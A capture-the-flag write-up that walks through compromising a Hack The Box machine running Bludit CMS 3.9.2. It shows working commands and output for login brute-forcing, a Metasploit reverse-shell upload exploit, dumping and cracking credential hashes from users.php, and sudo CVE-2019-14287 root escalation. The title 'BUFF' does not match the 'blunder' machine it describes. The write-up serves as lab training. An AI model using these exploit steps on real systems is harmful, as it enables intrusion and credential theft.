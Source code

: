# BUFF

### User Flag

```
user@kali:~/hacking/blunder$ nmap -T5 10.10.10.191
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-03 15:25 CEST
Nmap scan report for 10.10.10.191
Host is up (0.10s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE
21/tcp closed ftp
80/tcp open   http

Nmap done: 1 IP address (1 host up) scanned in 20.65 seconds
```

Looking at the source code of the webpage we will find that the page is using Bludit CMS, and the version is 3.9.2. If we search for exploits, we will find two. [CVE 2019-16113](https://www.exploit-db.com/exploits/48701) will give us a shell in the victim machine, but we need a user and password of bludit. To get this information, we will use [CVE 2019-17240](https://www.exploit-db.com/exploits/48746), which let us doing a bruteforce attack without bludit banning our IP address. 

First we will run dirbuster, gathering more useful information inside the webserver:
- Nnumber of threads: 8
- Wordlist: `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
- Extensions: `php`, `txt`, `html`

After some minutes, we find **the blunder**: a file called `todo.txt` (http://10.10.10.191/todo.txt). Here we find a possible user name: `fergus`.

Now we know a possible user, the best way to try to guess the password is generating our own wordlist.

```
user@kali:~/hacking/blunder$ cewl -w customwordlist.txt -d 5 -m 7 http://10.10.10.191/
```

Now we are able to use the exploit and hope we find the password. In my case, I didn't have the dependencies to run the ruby script, so I installed them:

```
user@kali:~/hacking/blunder$ sudo gem install docopt
user@kali:~/hacking/blunder$ sudo gem install httpclient
```

And now I am able to run the exploit:

```
user@kali:~/hacking/blunder$ ruby 48746.rb -r http://10.10.10.191/admin -u fergus -w customwordlist.txt
ruby: warning: shebang line ending with \r may cause problems
[*] Trying password: Plugins
[*] Trying password: Include
[*] Trying password: service
...
[*] Trying password: RolandDeschain

[+] Password found: RolandDeschain
```

With the user and password, we can move to the other exploit, which can be found in metasploit:

```
user@kali:~$ msfconsole
...
msf5 > search bludit

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability


msf5 > use exploit/linux/http/bludit_upload_images_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(linux/http/bludit_upload_images_exec) > options

...

msf5 exploit(linux/http/bludit_upload_images_exec) > set LHOST 10.10.14.201
LHOST => 10.10.14.201
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > run

...

meterpreter >
```

Now, we can login in a shell with `shell` meterpreter command, where we will see that we are user `www-data`. 
To get at least the prompt of the shell, we may use this trick:

```
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ 
```

We can search for the php files inside the server, and we will find an interesting file: `/var/www/bludit-3.9.2/bl-content/databases/users.php`. Here we can find fergus user (which we used to run the exploit) and also the admin user, with their respective hash:

```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ cat ./databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        ...
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        ....
    },
    "fergus": {
        ...
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        ...
    }
}
```

If we continue looking for files, we will find the old bludit directory too:

```
www-data@blunder:/var/www$ ls -l
ls -l
total 12
drwxr-xr-x 8 www-data www-data 4096 May 19 15:13 bludit-3.10.0a
drwxrwxr-x 8 www-data www-data 4096 Apr 28 12:18 bludit-3.9.2
drwxr-xr-x 2 root     root     4096 Nov 28  2019 html
```

Inside version `bludit-3.10.0a` directory we will find the `users.php` file too, which contains:

```
www-data@blunder:/var/www$ cat bludit-3.10.0a/bl-content/databases/users.php
cat bludit-3.10.0a/bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        ...
}
```

The interesting thing is that hugo is a user who exists in the linux system:

```
www-data@blunder:/var/www$ grep -i 'hugo' /etc/passwd
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
```


We may try our luck and trying to decrypt the hash first instead moving to a bruteforce search. I use a SHA1 decrypt tool, like the webpage `https://md5decrypt.net/en/Sha1/`. Since the password was very weak, it
was in the databse, so we can continue with hugo passsword: `Password120`.

```
www-data@blunder:/var/www$ su -l hugo
Password: Password120

hugo@blunder:~$ cat user.txt
```

### Root Flag

I will use [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) to search for more vulnerabilities. I download the script and upload to `/tmp` in the machine with `upload` command in metasploit. Then, I logged in
using hugo's account:

```
hugo@blunder:~$ cp /tmp/linpeas.sh .
hugo@blunder:~$ ./linpeas.sh &> out.txt
```

Later we can inspect the file with `less -R`. Here we can see that the sudo version may be vulnerable to some exploit. The sudo version is `sudo 1.8.25p1`. The next step is to try the [CVE 2019-14287](https://www.exploit-db.com/exploits/47502) exploit:

```
hugo@blunder:~$ python3 47502.py
Enter current username :hugo
hugo
Password: Password120

Lets hope it works
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
```



